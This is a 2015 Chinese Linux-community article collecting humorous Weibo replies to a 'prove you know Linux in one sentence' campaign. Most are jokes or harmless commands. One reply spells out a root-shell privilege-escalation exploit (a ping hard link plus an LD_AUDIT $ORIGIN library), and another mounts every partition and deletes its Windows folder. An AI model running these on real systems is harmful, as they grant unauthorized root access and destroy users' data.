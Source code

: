 ```yaml
title: 《一句话证明你懂linux》的有趣评论
titlepic: false
translator: ''
updated: '2015-01-26 11:43:00'
---
```


上周，[@Linux中国](http://weibo.com/n/Linux%E4%B8%AD%E5%9B%BD?from=feed&loc=at) 和 [@图灵教育](http://weibo.com/n/%E5%9B%BE%E7%81%B5%E6%95%99%E8%82%B2?from=feed&loc=at) 发起了一个活动：“[一句话证明你懂linux](http://weibo.com/1772191555/C0s1qqeYh)”，引来了网友的踊跃参加。网友的智慧是无穷的，我们将其中的一些有趣的回答撷取出来分享给大家。


![](/data/attachment/album/201501/26/114332oug6elcbqh8e9are.gif)


这里有秀命令的，果然不出所料，“rm -rf /”和 shell 炸弹是一定会出现的：


* @doublemark：cd mkdir rm 小白也能证明！
* @joeren1981：cat /etc/passwd | cut -d ':' -f 1 >>/root/userlist
* @love\_daisy\_love：mkdir ~/tmp; sudo fdisk -l | grep ^\/dev | grep -v swap | awk '{print $1}' | xargs -i sh -c "sudo mount {} ~/tmp; sudo rm -rf ~/tmp/Windows; sudo umount tmp"
* @进击的Manu\_coder：echo "tvir zr gurfr obbxf, gunax lbh" | tr [n-za-m] [a-z]
* @赍思潜行：:w !sudo tee % 偷凤转龙的vi命令
* @Seamile：for i in $'\111' $'\114\157\166\145' $'\114\151\156\165\170';do c=$((($RANDOM)%6+31));printf '\033[0;%sm%s \033[0m' $c $i;done
* @M\_四月天：ruby -e 'require "date"; puts DateTime.now.cweek' 你们知道今天是第几周么？[嘻嘻]
* @灰色的小翅膀飞啊飞：mkdir /tmp/exploit ln /bin/ping /tmp/exploit/target exec 999< /tmp/exploit/target rm -rf /tmp/exploit/ echo 'void \_\_attribute\_\_((constructor)) init(){setuid(0);system('/bin/bash');}' | gcc -w -fPIC -shared -o /tmp/exploit -xc - LD\_AUDIT='\$ORIGIN' ～～～got r00t...
* @hunterwan：kexec -l /mnt/$DEV/boot/uImage --append="console=ttyS0,38400 earlyprintk=ttyS0 root=/dev/ram0 rw initrc=myrc" --ramdisk=/mnt/$DEV/myramdisk.gz


也有炫知识的，我只能说，炫的好！


* @norvid：usr目录不是用户目录，而是 Unix System Resource。[嘻嘻]
* @kunis：用vim编写Linux C程序，并用Makefile构建它们，最后在Linux Shell上执行它们，Linux 就是这个范儿。
* @鱿蚊菟鸶：[喵喵] 被企鹅咬过的那个人说过，专利纠纷是开放源代码最大威胁。
* @一生中最爱6666：一切都是文件，每个软件都有特定的用途。
* @OoO牛奶咖啡：echo 3 > /proc/sys/vm/drop\_caches
* @chunk9：你知道吗？ls还有个–Z选项，那一天我打开了新世界的大门…
* @CodeMu：即使是删空目录，我也不用rmdir
* @吹尽狂沙的地盘： 把书给我吧，这个真没法fork（）一个出来！要不给我ln一个也行？
* @mirage\_hl：init是所有进程的爹[哈哈]
* @木木月yjq： “老公我想买个包包”，“老婆家里已经有很多了”，“我就要这个，sudo 买”，“好的，老大”。
* @骑车去首都：我得用less来看这本书啊@图灵教育 ，不太喜欢用more
* @爱开源魅影：我用grep在右面整理成的文章里找我的名字
* @ToB蓝波湾：每次关闭文件之前，我都习惯性的按一下ESC
* @mengalong：当年就知道a.out
* @比尔盖子V:新版内核已经没有讨厌的 BKL 了


他们说的你也知道么？
